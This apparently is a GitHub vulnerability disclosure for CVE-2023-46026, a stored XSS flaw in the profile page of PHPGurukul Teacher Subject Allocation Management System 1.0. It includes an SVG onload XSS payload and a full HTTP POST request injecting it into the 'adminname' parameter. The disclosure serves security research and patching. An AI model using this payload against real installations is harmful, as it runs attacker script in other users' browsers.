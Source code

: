 # CVE-2023-46026-PHPGurukul-Teacher-Subject-Allocation-Management-System-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17645
# Overview
+ PHPGurukul Teacher Subject Allocation Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'adminname' and 'email' parameters in the /profile.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46026
+ Affected Version: PHPGurukul Teacher Subject Allocation Management System V1.0
+ Vulnerable File: profile.php
+ Parameters: adminname, email
+ Attack Type: local
# Description
+ The parameters adminname and email in the profile.php file of PHPGurukul Teacher Subject Allocation Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to Submit button to update
+ Intercept the POST request to profile.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `adminname` parameter
```
POST /Tsas/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://localhost
Connection: close
Referer: http://localhost/Tsas/admin/profile.php
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

adminname=SuperAdmin"><svg/onload=alert(document.domain)>&username=admin&email=admin%40gmail.com&mobilenumber=5689784592&submit=
```
+ Go to the profile page and trigger the XSS --> `http://localhost/Tsas/admin/profile.php`
<img width="1447" alt="image" src="https://github.com/ersinerenler/phpgurukul-Teacher-Subject-Allocation-Management-System-1.0/assets/113091631/cbcd8230-be94-46c0-b4b9-3ee73193bbdb">
